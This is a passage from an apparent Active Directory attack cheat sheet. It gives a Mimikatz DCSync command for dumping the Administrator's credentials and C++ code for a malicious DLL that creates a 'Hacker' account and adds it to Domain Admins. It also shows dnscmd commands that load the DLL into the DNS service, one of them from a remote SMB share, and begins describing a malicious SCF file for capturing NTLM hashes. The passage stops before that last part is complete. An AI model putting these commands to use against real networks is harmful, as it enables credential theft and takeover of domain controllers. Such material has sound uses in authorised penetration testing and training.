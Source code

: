 #### Mimikatz

The same proccess can be done connecting to any machine of the domain, having valid credentials and using `Mimikatz`, to do this:

```powershell
lsadump::dsync /domain:domain.local /user:Administrator
```


### DNS Admin

A user who is member of the `DNSAdmins` group or has write privilege to a `DNS` server object, can load an arbitrary `DLL` with `SYSTEM` privileges on the `DNS` server. This is really intersesting as the `DCs`are used frequently as `DNS` servers.

First, we have to create a malicious `DLL`. In order to do this, we have to create a file named `command.txt`, that contains the commands that are going to be run by `SYSTEM`. In this case, we will create a user named `Hacker` and add it to `Domain Admins` group. First, we have to clone (DNSAdmin-DLL)[https://github.com/kazkansouh/DNSAdmin-DLL] repository. Then, we will change the `DnsPluginInitialize` to the following:

```cpp
DWORD WINAPI DnsPluginInitialize(PVOID pDnsAllocateFunction, PVOID pDnsFreeFunction)
{
		system("C:\\Windows\\System32\\net.exe user Hacker Password /add /domain");
		system("C:\\Windows\\System32\\net.exe group \"Domain Admins\" Hacker /add /domain");
}
```

Finally, we execute one of the following commands, so when the `DNSService` restarts, the `DLL` is injected and a new user named Hacker is created:

```powershell
dnscmd dc.domain.local /config /serverlevelplugindll c:\DNSAdmin-DLL.dll

dnscmd dc.domain.local /config /serverlevelplugindll \\10.10.10.2\smbFolder\DNSAdmin-DLL.dll
```

It is not very common, but sometimes you can have permisions to restart the DNS service with the following commands:

```powershell
sc.exe \\dc stop dns
sc.exe \\dc start dns
```


### Malicious SCF File

In case of having writing permissions in any shared resource of the machine, we can create a malicious `SCF` file that has an icon that is hosted in a shared folder controlled by us. If any user enters the folder containing the file in the machine, when the icon is loaded, we will have a succesful connection to the shared folder, and thus the `Net-NTLMv2` of the user that has loaded the icon is going to be displayed. Then, we can crack this hash  offline.

First, using`smbserver`, we will create a shared `SMB` folder.
